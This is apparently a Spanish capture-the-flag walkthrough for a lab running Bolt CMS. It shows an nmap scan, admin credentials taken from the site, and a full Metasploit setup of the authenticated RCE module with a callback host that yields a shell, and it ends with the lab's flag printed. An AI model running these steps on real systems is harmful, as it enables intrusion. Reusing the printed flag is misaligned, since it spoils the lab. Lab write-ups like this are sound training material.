## 1. Reconocimiento Inicial

bash

Copy

nmap -sV 10.10.213.145

**Resultados:**

- Puerto 8000 (HTTP) → Servicio web con CMS Bolt
    

## 2. Investigación del Servicio Web

- Acceso a `http://10.10.213.145:8000` en navegador
    
- Credenciales encontradas en la página:
    
    - Usuario: **bolt**
        
    - Contraseña: **boltadmin123**
        

## 3. Acceso al Panel de Administración

- Login en `http://10.10.213.145:8000/bolt/login`
    
- Versión detectada: **Bolt CMS 3.7.1**
    

## 4. Búsqueda de Exploit

bash

Copy

searchsploit bolt cms

- Exploit encontrado: **EDB-ID 48296** (RCE autenticado)
    
- Ruta en Metasploit: `exploit/unix/webapp/bolt_authenticated_rce`
    

## 5. Configuración y Ejecución del Exploit

bash

Copy

msfconsole
use exploit/unix/webapp/bolt_authenticated_rce
set RHOSTS 10.10.213.145
set USERNAME bolt
set PASSWORD boltadmin123
set LHOST 10.10.40.185
run

**Resultado:** Shell obtenida con éxito

## 6. Captura de la Bandera

bash

Copy

cd /home
cat flag.txt

**Bandera obtenida:**  
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}